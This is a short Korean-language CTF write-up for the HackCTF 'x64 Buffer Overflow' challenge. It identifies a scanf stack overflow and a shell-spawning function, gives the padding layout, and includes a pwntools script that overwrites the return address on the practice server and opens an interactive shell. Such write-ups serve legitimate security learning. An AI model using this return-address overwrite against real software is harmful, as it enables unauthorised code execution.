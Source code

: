 ```yaml
---
title: "[ HackCTF ] x64 Buffer Overflow"
date: 2023-03-07T13:40:02.951Z
categories: ['Wargame', 'HackCTF']
tags: ['HackCTF', "pwn"]
---
```


### **문제 분석**
---
![](/images/c6d8b638-2d43-4a27-b1ae-1bc15c4df9b2-image.png)

main함수에서 scanf를 보면 BOF 취약점이 존재한다.

<br>

![](/images/827bfe9e-a5f0-4167-9e90-86511c572497-image.png)

callMeMaybe함수에서는 shell을 획득할 수 있다.


<br>
<br>

### **문제 풀이**
---

변수 s는 ebp-0x110에 위치하므로 다음과 같이 payload를 작성할 수 있다.

```dummy(0x110byte) + sfp(8byte) + 0x0000000000400606(callMeMaybe address)```

<br>

exploit 코드는 다음과 같다.

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3004)

payload = ''
payload += '\x90'*0x110
payload += '\x90'*0x8
payload += p64(0x0000000000400606)

p.sendline(payload)

p.interactive()
```